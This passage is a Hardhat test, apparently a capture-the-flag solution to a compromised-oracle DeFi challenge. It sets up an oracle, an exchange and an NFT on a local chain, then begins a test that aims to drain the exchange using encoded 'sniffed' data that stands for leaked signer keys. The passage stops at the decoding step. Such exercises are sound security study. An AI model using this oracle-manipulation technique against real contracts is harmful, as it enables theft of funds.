 ```ts
    [owner, attacker] = await ethers.getSigners();

    // initialize balance of the trusted source addresses
    for (const source of SOURCE_ADDRESSES) {
      await ethers.provider.send('hardhat_setBalance', [
        source,
        '0x1bc16d674ec80000', // 2 ETH
      ]);
      expect(await ethers.provider.getBalance(source)).to.equal(ethers.utils.parseEther('2'));
    }

    // attacker starts with 0.1 ETH in balance
    await ethers.provider.send('hardhat_setBalance', [
      attacker.address,
      '0x16345785d8a0000', // 0.1 ETH
    ]);
    // await setBalance(attacker.address, ethers.utils.parseEther('0.1'));
    expect(await ethers.provider.getBalance(attacker.address)).to.equal(ethers.utils.parseEther('0.1'));

    // deploy the oracle initializer, which creates the oracles itself and setup the trusted sources with initial prices
    const oracleInitializer = await ethers
      .getContractFactory('TrustfulOracleInitializer', owner)
      // deploy oracle initializer
      .then(c =>
        c.deploy(
          SOURCE_ADDRESSES,
          [NFT_SYMBOL, NFT_SYMBOL, NFT_SYMBOL],
          [INITIAL_NFT_PRICE, INITIAL_NFT_PRICE, INITIAL_NFT_PRICE]
        )
      );

    //  attach to the deployed & initialized oracle
    const initializedOracle = await oracleInitializer.oracle();
    oracle = await ethers.getContractFactory('TrustfulOracle', owner).then(f => f.attach(initializedOracle));

    // deploy the exchange, which also creates the associated ERC721 token
    exchange = await ethers
      .getContractFactory('Exchange', owner)
      .then(f => f.deploy(oracle.address, {value: EXCHANGE_INITIAL_ETH_BALANCE}));

    // attach to existing contract from exchange
    const exchangeToken = await exchange.token();
    nftToken = await ethers.getContractFactory('DamnValuableNFT', owner).then(f => f.attach(exchangeToken));
  });

  it('should drain funds from the exchange', async () => {
    // the data given in challenge
    const sniffedData = [
      '4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35',
      '4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34',
    ];

    // decoded to hex from base64
    const decodedData = sniffedData
```